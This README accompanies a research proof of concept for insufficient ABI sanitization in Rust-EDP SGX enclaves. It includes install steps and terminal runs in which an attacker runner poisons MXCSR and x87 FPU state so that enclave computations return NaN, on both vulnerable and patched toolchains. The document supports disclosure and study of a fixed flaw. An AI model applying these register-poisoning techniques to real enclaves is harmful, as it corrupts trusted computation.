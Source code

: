 # Proof-of-concept exploitation with malicious runner

This directory includes a minimal PoC showcasing insufficient ABI sanitization
in Rust-EDP. The PoC shows that untrusted code controls x87 and SSE
configuration registers on enclave entry, which got fixed after our disclosure
in newer Rust-EDP versions. We furhtermore show that the initial fix did not
suffice and attackers could still override the expected result of an exemplary
x87 FPU computation with unexpected NaN outcomes. This too got fixed after our
disclosure in newest Rust-EDP versions.

## Rust-EDP installation

The untrusted runner is included in a fork of the rust-sgx repo, while the
trusted enclave runtime is part of the Rust compiler. Instructions below also
include how to easily switch between vulnerable and patched compiler versions.

### Install vulnerable Rust-EDP

```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
source $HOME/.cargo/env
rustup default nightly-2020-02-01
rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
rustc --version

cd rust-sgx-fpu
git revert fb5cae4dbcafb4729fdf7852268e75b1e7e9182e # llvm_asm -> asm
cargo install --path ./fortanix-sgx-tools fortanix-sgx-tools
cargo install --path ./sgxs-tools sgxs-tools
echo >> ~/.cargo/config -e '[target.x86_64-fortanix-unknown-sgx]\nrunner = "ftxsgx-runner-cargo"'

# Check your SGX setup
sgx-detect

# Run the FPU poisoning enclave!
cd hello-world
cargo run --target x86_64-fortanix-unknown-sgx
```

### Vulnerable Rust-EDP version (SSE MXCSR + x87 control word + x87 tag)

```
$ rustup default nightly-2020-02-01
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
$ rustc --version
rustc 1.42.0-nightly (cd1ef390e 2020-01-31)

$ cargo run
    Finished dev [unoptimized + debuginfo] target(s) in 0.02s
     Running `ftxsgx-runner-cargo target/x86_64-fortanix-unknown-sgx/debug/hello-world`
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

$ fpu-runner ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

### Patched Rust-EDP version (x87 tag)

```
$ rustup default nightly
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly
$ rustc --version
rustc 1.46.0-nightly (feb3536eb 2020-06-09)

$ cargo run
   Compiling hello-world v0.1.0 (/home/jo/Documents/sgx-floats/pocs/rust-edp/hello-world)
    Finished dev [unoptimized + debuginfo] target(s) in 0.18s
     Running `ftxsgx-runner-cargo target/x86_64-fortanix-unknown-sgx/debug/hello-world`
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

$ fpu-runner ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

### Install latest (patched) Rust-EDP

```
rustup default nightly
rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
rustc --version
```

### FPUCW poisoning

To go to newest version:

```
$ rustup update
$ rustup default nightly
$ rustc --version
rustc 1.46.0-nightly (0c03aee8b 2020-07-05)
```

```
$ rustc --version
rustc 1.46.0-nightly (feb3536eb 2020-06-09)
jo@breuer:~/Documents/sgx-floats/pocs/rust-edp/hello-world$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
$ cargo run
    Finished dev [unoptimized + debuginfo] target(s) in 0.01s
     Running `ftxsgx-runner-cargo target/x86_64-fortanix-unknown-sgx/debug/hello-world`
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

$ fpu-runner --fpu 123 --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[attacker] poisoning FPUCW with 0x7b
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000
```
